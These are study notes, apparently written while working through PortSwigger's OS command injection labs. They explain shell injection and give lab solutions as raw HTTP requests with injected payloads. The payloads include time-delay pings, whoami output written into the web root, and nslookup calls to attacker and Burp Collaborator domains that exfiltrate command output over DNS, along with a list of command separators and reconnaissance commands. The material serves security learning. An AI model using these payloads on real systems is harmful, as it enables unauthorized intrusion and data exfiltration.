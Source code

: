 ```yaml
---
description: https://portswigger.net/web-security/os-command-injection
---
```


# OS Command Injection

## Executing arbitrary commands

OS command injection (also known as shell injection) is a web security vulnerability that allows an attacker to execute arbitrary operating system (OS) commands on the server that is running an application, and typically fully compromise the application and all its data.

Consider a shopping application that lets the user view whether an item is in stock in a particular store. This information is accessed via a URL like:

`https://insecure-website.com/stockStatus?productID=381&storeID=29`

To provide the stock information, the application must query various legacy systems. For historical reasons, the functionality is implemented by calling out to a shell command with the product and store IDs as arguments:

`stockreport.pl 381 29`

This command outputs the stock status for the specified item, which is returned to the user.

Since the application implements no defenses against OS command injection, an attacker can submit the following input to execute an arbitrary command:

`& echo aiwefwlguh &`

If this input is submitted in the productID parameter, then the command executed by the application is:

`stockreport.pl & echo aiwefwlguh & 29`

The echo command simply causes the supplied string to be echoed in the output, and is a useful way to test for some types of OS command injection. The & character is a shell command separator, and so what gets executed is actually three separate commands one after another. As a result, the output returned to the user is:

```
Error - productID was not provided
aiwefwlguh
29: command not found
```

The three lines of output demonstrate that:

The original stockreport.pl command was executed without its expected arguments, and so returned an error message. The injected echo command was executed, and the supplied string was echoed in the output. The original argument 29 was executed as a command, which caused an error.

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

### Lab: OS command injection, simple case

POST /product/stock HTTP/1.1

productId=1;$(whoami);\&storeId=1

productId=1\&storeId=1;whoami productId=1\&storeId=1|whoami

When you have identified an OS command injection vulnerability, it is generally useful to execute some initial commands to obtain information about the system that you have compromised. Below is a summary of some commands that are useful on Linux and Windows platforms:

| Purpose of command    | Linux       | Windows       |
| --------------------- | ----------- | ------------- |
| Name of current user  | whoami      | whoami        |
| Operating system      | uname -a    | ver           |
| Network configuration | ifconfig    | ipconfig /all |
| Network connections   | netstat -an | netstat -an   |
| Running processes     | ps -ef      | tasklist      |

## Blind OS command injection vulnerabilities

Many instances of OS command injection are blind vulnerabilities. This means that the application does not return the output from the command within its HTTP response. Blind vulnerabilities can still be exploited, but different techniques are required.

You can use an injected command that will trigger a time delay, allowing you to confirm that the command was executed based on the time that the application takes to respond. The ping command is an effective way to do this, as it lets you specify the number of ICMP packets to send, and therefore the time taken for the command to run:

`& ping -c 10 127.0.0.1 &`

This command will cause the application to ping its loopback network adapter for 10 seconds.

### Lab: Blind OS command injection with time delays

It worked only email parameter.

```
POST /feedback/submit HTTP/1.1
csrf=KqGCxTLn47f6h4XIziMxfro6eTJzrthN&name=test&email=a;ping -c 10 127.0.0.1;&subject=test&message=test

email=a;ping -c 10 127.0.0.1;
email=x||ping+-c+10+127.0.0.1|| - Solution at PSA
email=a%0aping -c 10 127.0.0.1%0a
```

### Exploiting blind OS command injection by redirecting output

You can redirect the output from the injected command into a file within the web root that you can then retrieve using your browser. For example, if the application serves static resources from the filesystem location /var/www/static, then you can submit the following input:

`& whoami > /var/www/static/whoami.txt &`

The > character sends the output from the whoami command to the specified file. You can then use your browser to fetch https://vulnerable-website.com/whoami.txt to retrieve the file, and view the output from the injected command.

### Lab: Blind OS command injection with output redirection

```
POST /feedback/submit HTTP/1.1
csrf=1hRg4JRfnpXoq30JXFwJZYb6xRVgMGOT&name=a&email=b;whoami > /var/www/images/whoami.txt;&subject=c&message=d
view-source:https://ac051fcf1e91fd8bc0644ffc00b90005.web-security-academy.net/image?filename=whoami.txt

email=;whoami > /var/www/images/whoami.txt;
email=||whoami>/var/www/images/output.txt|| - Solution at PSA
email=b%0aid > /var/www/images/whoami.txt%0a
email=b%26uname -a > /var/www/images/whoami.txt%26
email=b|ip+addr > /var/www/images/whoami.txt|
```

### Exploiting blind OS command injection using out-of-band (OAST) techniques

You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques. For example:

`& nslookup kgji2ohoyw.web-attacker.com &`

This payload uses the nslookup command to cause a DNS lookup for the specified domain. The attacker can monitor for the specified lookup occurring, and thereby detect that the command was successfully injected.

### Lab: Blind OS command injection with out-of-band interaction

```
myopzbg9zgtjlsk4xfc1xiisajga4z.burpcollaborator.net

POST /feedback/submit
email=a; nslookup myopzbg9zgtjlsk4xfc1xiisajga4z.burpcollaborator.net;
email=a; nslookup myopzbg9zgtjlsk4xfc1xiisajga4z.burpcollaborator.net;
email=a%26 nslookup myopzbg9zgtjlsk4xfc1xiisajga4z.burpcollaborator.net%26
email=a| nslookup myopzbg9zgtjlsk4xfc1xiisajga4z.burpcollaborator.net|
email=a%0a nslookup myopzbg9zgtjlsk4xfc1xiisajga4z.burpcollaborator.net%0a

email=x||nslookup+x.burpcollaborator.net|| - Solution at PSA
```

The out-of-band channel also provides an easy way to exfiltrate the output from injected commands:

`& nslookup whoami.kgji2ohoyw.web-attacker.com &`

This will cause a DNS lookup to the attacker's domain containing the result of the whoami command:

wwwuser.kgji2ohoyw.web-attacker.com

### Lab: Blind OS command injection with out-of-band data exfiltration

```
xhi37q95yb4jdwqslq11a7vag1mrag.burpcollaborator.net

POST /feedback/submit
email=a; nslookup $(whoami).xhi37q95yb4jdwqslq11a7vag1mrag.burpcollaborator.net;
email=a; nslookup `whoami`.xhi37q95yb4jdwqslq11a7vag1mrag.burpcollaborator.net;
email=a%26 nslookup $(whoami).xhi37q95yb4jdwqslq11a7vag1mrag.burpcollaborator.net%26
email=a| nslookup $(whoami).xhi37q95yb4jdwqslq11a7vag1mrag.burpcollaborator.net|
email=a|| nslookup $(whoami).xhi37q95yb4jdwqslq11a7vag1mrag.burpcollaborator.net||
email=a%0a nslookup $(whoami).xhi37q95yb4jdwqslq11a7vag1mrag.burpcollaborator.net%0a

email=||nslookup+`whoami`.YOUR-SUBDOMAIN-HERE.burpcollaborator.net|| - Solution at PSA
```

Ways of injecting OS commands

A variety of shell metacharacters can be used to perform OS command injection attacks.

A number of characters function as command separators, allowing commands to be chained together. The following command separators work on both Windows and Unix-based systems:

* &
* &&
* |
* ||

The following command separators work only on Unix-based systems:

* ;
* Newline (0x0a or \n)

On Unix-based systems, you can also use backticks or the dollar character to perform inline execution of an injected command within the original command:

• `` injected command` `` • $( injected command )

Note that the different shell metacharacters have subtly different behaviors that might affect whether they work in certain situations, and whether they allow in-band retrieval of command output or are useful only for blind exploitation.

Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to terminate the quoted context (using " or ') before using suitable shell metacharacters to inject a new command.
